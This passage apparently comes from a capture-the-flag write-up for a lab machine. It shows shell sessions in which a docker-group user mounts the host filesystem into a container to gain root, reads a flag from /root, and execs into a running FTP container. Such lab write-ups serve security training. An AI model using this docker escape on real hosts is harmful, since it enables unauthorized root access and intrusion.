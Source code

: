 ```shell-session
abbie@unintended.vl@backup:~$ docker run -it --rm -v /:/mnt python:3.11.2-slim chroot /mnt bash
root@9ac5c6621b4e:/# 
```

```shell-session
root@9ac5c6621b4e:/# ls -la /root/
total 40
drwx------  7 root root 4096 Mar 30 09:12 .
drwxr-xr-x 19 root root 4096 Feb 24 19:06 ..
lrwxrwxrwx  1 root root    9 Mar 30 08:38 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Feb 24 19:09 .cache
drwxr-xr-x  3 root root 4096 Feb 24 19:08 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Feb 24 20:07 .ssh
-rw-r--r--  1 root root    0 Mar 30 09:12 .sudo_as_admin_successful
-rw-r--r--  1 root root   37 Mar 30 08:40 flag.txt
drwxr-xr-x  3 svc  svc  4096 Feb 15 18:31 scripts
drwx------  3 root root 4096 Feb 24 19:06 snap
```

We get the second flag:

```shell-session
root@9ac5c6621b4e:~# cat flag.txt 
VL{...}
```

## Getting the Samba backup

We can also enumerate and run commands in existing containers:

```shell-session
abbie@unintended.vl@backup:~$ docker ps
CONTAINER ID   IMAGE                COMMAND           CREATED        STATUS             PORTS     NAMES
3b4fb11f4672   python:3.11.2-slim   "sh ./setup.sh"   2 months ago   Up About an hour             scripts_ftp_1
```

`scripts_ftp_1` seems to be for the FTP service running on port 21.

```shell-session
abbie@unintended.vl@backup:~$ docker exec -it scripts_ftp_1 bash
root@ftp:/ftp# 
```

```shell-session
root@ftp:/ftp# ls -la
total 20
drwxr-xr-x 3 root root 4096 Feb 24 19:56 .
drwxr-xr-x 1 root root 4096 Feb 24 19:56 ..
-rw-r--r-- 1 1000 1000  387 Feb 15 18:31 server.py
-rw-r--r-- 1 1000 1000   60 Feb 15 18:29 setup.sh
drwxr-xr-x 4 root root 4096 Jan 25 08:36 volumes
```
